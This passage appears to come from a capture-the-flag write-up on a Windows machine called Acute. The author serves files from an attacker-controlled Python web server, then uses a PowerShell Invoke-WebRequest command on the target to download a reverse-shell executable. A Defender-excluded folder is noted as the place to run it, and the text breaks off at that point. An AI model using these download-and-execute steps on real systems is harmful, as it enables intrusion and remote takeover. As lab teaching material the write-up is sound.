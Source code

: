 ```bash
sudo python3 -m http.server 8000
```

Now in PSWA:

```
iwr http://10.10.14.52:8000/revshell.exe -outfile revshell.exe
```

![web_result](images/Acute8.png)

Seems like Windows Defender is running. There's uncommon folder in C:\ called Utils:

![web_result](images/Acute9.png)

That's perfect now we can download and execute our reverse shell:
